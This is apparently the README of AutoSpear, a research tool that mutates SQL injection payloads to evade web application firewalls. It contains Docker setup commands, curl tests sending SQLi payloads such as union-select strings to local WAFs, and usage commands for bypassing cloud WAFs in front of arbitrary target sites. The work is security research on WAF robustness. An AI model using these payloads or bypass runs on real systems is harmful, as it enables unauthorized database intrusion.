



# AutoSpear
We will release the source code of AutoSpear after all vendors complete the fix process.

# Statement
I have noted in the presentation slides that the four WAFs (AWS, Fortinet, F5, and CSC) are deployed based on AWS ACLs and the managed rulesets (https://aws.amazon.com/marketplace/solutions/security/waf-managed-rules) provided by these vendors. 
Here I may restress that the three WAFs (Fortinet, F5, and CSC) under test in this configuration are not precisely the same as the independent WAFs provided by the vendors on their official websites.

Specifically:
(1) Amazon Web Services (AWS). We create a load balancer on AWS and add an Access Control List (ACL) to it. On this ACL, we select two AWS-managed rule groups related to SQLi, e.g., `Core ruleset` and `SQL database`.<br>
(2) F5. AWS allows users to add third-party vendors provided rule sets in the marketplace to the ACL. We replace the AWS rules in (1) with `F5 Web Exploits OWASP Rules`.<br>
(3) Cyber Security Cloud (CSC). Similar to (2), we subscribe to the `Cyber Security Cloud Managed Rules for AWS WAF - HighSecurity OWASP Set` and add it to ACL.<br>
(4) Fortinet. Fortinet also provides their ruleset `Fortinet OWASP Top 10 - The Complete Ruleset` in the AWS marketplace, which is a comprehensive package to help address threats as described in OWASP Top 10.<br>
(5) Cloudflare. Cloudflare's free version does not allow users to use managed rules. Therefore, we subscribe to Cloudflare's pro plan to enable the full-blown WAF. We turn on the three rule sets: `Cloudflare Specials`, `OWASP Common Exceptions` and `OWASP Generic Attack` to defend against SQLi attacks.<br>
(6) Wallarm. Wallarm applies machine learning to adaptively generate security rules and verifies the impact of malicious payloads in real-time. We deploy a Wallarm Node (for trial) based on Google Cloud Platform to enable its WAF function.<br>
(7) ModSecurity. We build and deploy ModSecurity based on Nginx and embed the latest version of the OWASP Core Rule Set (CRS) in it. Besides, we set the Paranoia Level of CRS as the default, i.e., PL1.<br>

Besides, I must reiterate that our provided results and rankings of vendors are obtained with our limited settings and dataset samples, which cannot fully represent the actual defense effects against all samples in the wild.

# Update
# Issues are welcome

# AutoSpear - Towards Automatically Bypassing and Inspecting Web Application Firewalls
A tool aiming to bypass and inspect WAFs (for SQLi payloads for now). You only need to input a interface of WAF and some SQLi payloads blocked by WAF. For simplicity, we provide some payloads and 4 WAFs ([ModSecurity](https://github.com/SpiderLabs/ModSecurity), [WAF-Brain](https://github.com/BBVA/waf-brain), CNN-based and LSTM-based WAF).
## Features
- Hierarchical Tree Representation (Semantic-based analysis)
- Mutation with Context-free Grammar (Vast search space of mutations)
- Monte-Carlo Tree Search Guided Searching (Efficient for black-box attack)
## Deployment
### Deploy WAFs with Docker 
- [ModSecurity](https://github.com/SpiderLabs/ModSecurity)
```
docker build -t waf/modsecurity:v1 classifiers/repos/modsecurity/
docker run -d -p 9000:80 --name=modsecurity  waf/modsecurity:v1 /usr/local/openresty/nginx/sbin/nginx -g "daemon off;"
```
- [WAF-Brain](https://github.com/BBVA/waf-brain)
```
docker build -t waf/wafbrain:v1 classifiers/repos/wafbrain/
docker run -p 9001:80 -d --name=wafbrain  waf/wafbrain:v1
```
- CNN-based SQLi detector
```
docker build -t waf/cnn:v1 classifiers/repos/cnn/
docker run -p 9002:80 -d --name=cnn  waf/cnn:v1
```
- LSTM-based SQLi detector
```
docker build -t waf/lstm:v1 classifiers/repos/lstm/
docker run -p 9003:80 -d --name=lstm  waf/lstm:v1
```
### Test the connectivity of the WAFs
```
# ModSecurity
curl http://0.0.0.0:9000/
curl -X POST -d "payload=benign" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1) where (select 0) or 5232=5232 union all select null,null,null" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1) where (select 0) or 5232=5232 union all /*foo*/ select null,null,null" http://0.0.0.0:9000/waf

# WAF-Brain
curl http://0.0.0.0:9001/
curl -X POST -d "payload=benign" http://0.0.0.0:9001/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9001/waf

# CNN-based 
curl http://0.0.0.0:9002/
curl -X POST -d "payload=benign" http://0.0.0.0:9002/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9002/waf

# LSTM-based
curl http://0.0.0.0:9003/
curl -X POST -d "payload=benign" http://0.0.0.0:9003/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9003/waf
```
### Install requirements with Virtualenv
```
pip3 install virtualenv
virtualenv spearenv
source spearenv/bin/activate
pip install -r requirements.txt
```
## ✨Usage
- Overview
> By default, AutoSpear modifies all parts of the payload (i.e. the boundaries and the query) and utilizes a random-search policy (which you can specify as MCTS with ``-g mcts``). The default request method for attacks against WAF-as-a-service is GET(JSON), and the default threshold for attacks on ML-based WAFs is 0.5. You can add your custom cookies via``--cookie``.
- Demos
    - Bypass ModSecurity for multi payloads (in payload_multiple.txt)
    ```
    python main.py -p WAFaas -WAFu http://0.0.0.0:9000/waf -pn multiple
    ```
    - Bypass ModSecurity for single payload (in payload_single_single.txt) with Monte-Carlo Tree Search
    ```
    python main.py -p WAFaas -WAFu http://0.0.0.0:9000/waf -g mcts
    ```
    - Bypass some kind of WAF-as-a-service (i.e., cloud WAF) of other request methods
    ```
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r GET
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r GET(JSON)
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r POST
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r POST(JSON)
    ```
    - Bypass WAF-Brain with threshold 0.1 under strict black-box situation (no score) with random search
    ```
    python main.py -p ML -MLu http://0.0.0.0:9001/waf -MLt 0.1 -MLb blackbox_without_score -pn multiple
    ```
    - Bypass WAF-Brain with threshold 0.1 under black-box situation (with score) with MCTS guided search
    ```
    python main.py -p ML -MLu http://0.0.0.0:9001/waf -MLt 0.1 -MLb blackbox_with_score -pn multiple -g mcts
    ```
- Demo of logs
    - Script output
    
    - Mutation process
    
    - Success payloads
    
- All arguments
```
python main.py -h
usage: main.py [-h] --pattern {ML,WAFaas} [--guide {random,mcts}] [--request_method {GET,GETJSON),POST,POST(JSON}] [--max_attempts MAX_ATTEMPTS]
               [--max_steps MAX_STEPS] [--tree_mutate_pattern {all,query}] [--payload_number {single,multiple}] [--ML_url ML_URL] [--ML_thresh ML_THRESH]
               [--ML_box {blackbox_with_score,blackbox_without_score}] [--WAFaas_url WAFAAS_URL] [--cookie COOKIE]

optional arguments:
  -h, --help            show this help message and exit
  --pattern {ML,WAFaas}, -p {ML,WAFaas}
                        attack pattern: ML or WAFaas; ML means local ML SQLi detector and WAFaas means real-world WAF-as-a-service; you need to specify
                        request method when WAFaas
  --guide {random,mcts}, -g {random,mcts}
                        guide mothod: mcts or random (default); mcts means Monte-Carlo Tree Search
  --request_method {GET,GET(JSON),POST,POST(JSON)}, -r {GET,GET(JSON),POST,POST(JSON)}
                        request method: GET / GET(JSON) / POST / POST(JSON)
  --max_attempts MAX_ATTEMPTS, -mat MAX_ATTEMPTS
                        maximum number of attempts, default is 10; This parameter is for the entire attack process, no matter what attack method is used,
                        the attack process is repeated *mat* times
  --max_steps MAX_STEPS, -mst MAX_STEPS
                        this parameter plays a role in the attack process, a payload can be mutated at most *mst* times.
  --tree_mutate_pattern {all,query}, -tp {all,query}
                        tree muatte pattern: only modify query_tree or modify both boundary and query trees
  --payload_number {single,multiple}, -pn {single,multiple}
                        payload pattern: single payloads or multi paylaods, you need to write your payload(s) to the corresponding files (payload_xxx.txt)
  --ML_url ML_URL, -MLu ML_URL
                        the local ML SQLi detector url (the ML model needs to be deployed as a *service* in advance)
  --ML_thresh ML_THRESH, -MLt ML_THRESH
                        threshold of the local ML SQLi detector
  --ML_box {blackbox_with_score,blackbox_without_score}, -MLb {blackbox_with_score,blackbox_without_score}
                        blackbox with score?
  --WAFaas_url WAFAAS_URL, -WAFu WAFAAS_URL
                        the url of your target WAFaas
  --cookie COOKIE, -c COOKIE
                        cookie
```